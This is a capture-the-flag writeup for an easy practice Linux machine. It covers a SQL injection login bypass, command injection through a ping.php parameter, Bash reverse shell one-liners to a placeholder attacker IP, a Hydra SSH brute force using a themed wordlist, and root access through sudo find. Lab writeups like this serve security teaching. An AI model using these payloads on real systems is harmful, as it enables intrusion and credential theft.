# Operation Promotion - Writeup

This is an easy Linux machine that combines web application attacks and Linux privilege escalation. The path involves exploiting a SQL injection vulnerability, abusing a command injection flaw to gain a shell, and leveraging misconfigured sudo permissions to obtain root access.

## Reconnaissance

I started by performing an Nmap scan against the target machine to identify exposed services and potential attack vectors.



The scan revealed the following open ports:

+ 22/tcp - SSH
+ 80/tcp - HTTP
+ 139/tcp - Samba (SMB)
+ 445/tcp - Samba (SMB)

The SMB service was identified as Samba smbd version 4.

## Web Enumeration

Since a web server was exposed on port 80, I performed directory enumeration using Gobuster.



During enumeration, I discovered the `/admin` directory. The same directory was also referenced inside the site's `robots.txt` file, making it an obvious point of interest.

## Authentication Bypass via SQL Injection

Browsing to `/admin` presented a login page.

Testing the login form for SQL injection vulnerabilities revealed that authentication could be bypassed using the following payload:

`' or true --`



After submitting the payload, I successfully gained access as an administrator.

## User Information Gathering

While enumerating user records through the administrative panel, I discovered a service account named `sysmaint`. 

The account description referenced `/admin/sysmaint-checks/ping.php`, indicating the existence of an internal maintenance tool that could potentially be abused.



## Command Injection Discovery

Navigating to the referenced page revealed the following usage message:

Usage: /admin/sysmaint-checks/ping.php?host=<target>

This indicated that the application executed system ping commands based on user input.

I first confirmed normal functionality by pinging my own machine.



Afterward, I tested for command injection by appending additional commands to the host parameter.

Commands such as:

ls \
cat /etc/passwd



executed successfully, confirming the presence of a command injection vulnerability.

## Initial Foothold

After confirming command injection, I attempted to obtain a reverse shell using a Bash payload from GTFOBins:

```bash -c 'exec bash -i &>/dev/tcp/ATTACKER_IP/PORT <&1'```

Despite arbitrary command execution being confirmed, the payload failed to establish a connection back to my listener.

Since the vulnerability was clearly allowing command execution, I investigated the target environment further and checked the system shell:

```ls -l /usr/bin/sh```

The output showed that /usr/bin/sh was linked to `dash`, which can behave differently from Bash regarding redirection syntax.

I then switched to an alternative Bash reverse shell payload:

```bash -c "bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"```


Because the command was delivered through the host GET parameter, URL encoding was required. Spaces were replaced with `+` and special characters such as `&` were encoded as `%26` to ensure the payload reached the underlying shell exactly as intended.

This payload successfully connected back to my Netcat listener, providing an interactive shell as www-data.



## Local Enumeration

Although I had command execution, the `www-data` account had limited privileges.

I began enumerating the system and discovered a user directory belonging to `jford`.



I attempted to access files belonging to this user but lacked sufficient permissions. I also did not immediately discover any credentials that would allow SSH access.

At this point, I returned to enumeration.

## Password Attack Preparation

While reviewing the website's content, I noticed multiple references to a hiring campaign taking place during Spring 2026.

This included phrases such as:

Hiring Drive \
Spring 2026


Since organizations often use predictable passwords based on current events or internal themes, I decided to build a custom context-based wordlist.

## Creating a Context-Based Wordlist

I first created a placeholder wordlist containing the identified keyword:

```echo "spring2026" > placeholder.txt```

I then used Hashcat's `dive.rule` to generate password variations:

```hashcat --stdout placeholder.txt -r /usr/share/hashcat/rules/dive.rule > wordlist.txt```



Finally, I used Hydra to perform an SSH brute-force attack against the `jford` account:

```hydra -l jford -P wordlist.txt <TARGET_IP> ssh -t 4```



The attack successfully recovered the password:

Username: jford \
Password: spring2026!

## User Flag

Using the recovered credentials, I connected through SSH:

```ssh jford@<TARGET_IP>```

After logging in, the user flag was easily accessible.



## Privilege Escalation

To identify potential privilege escalation vectors, I checked the user's sudo permissions:

`sudo -l`

The output revealed that jford could execute the following binary as root:

```/usr/bin/find```



Consulting [GTFOBins](https://gtfobins.org/) showed that find can be abused to spawn a privileged shell.

I executed:

```sudo /usr/bin/find . -exec /bin/sh \; -quit```



This immediately spawned a root shell.

## Root Flag

After obtaining root privileges, I accessed the root directory and retrieved the final flag.



## Conclusion

This machine demonstrates how:

+ SQL injection can lead to unauthorized administrative access
+ Command injection vulnerabilities can result in remote code execution
+ Information disclosure can assist in targeted credential attacks
+ Misconfigured sudo permissions can lead to privilege escalation

The room provides a realistic attack chain that combines web exploitation, enumeration, credential attacks, and Linux privilege escalation techniques.
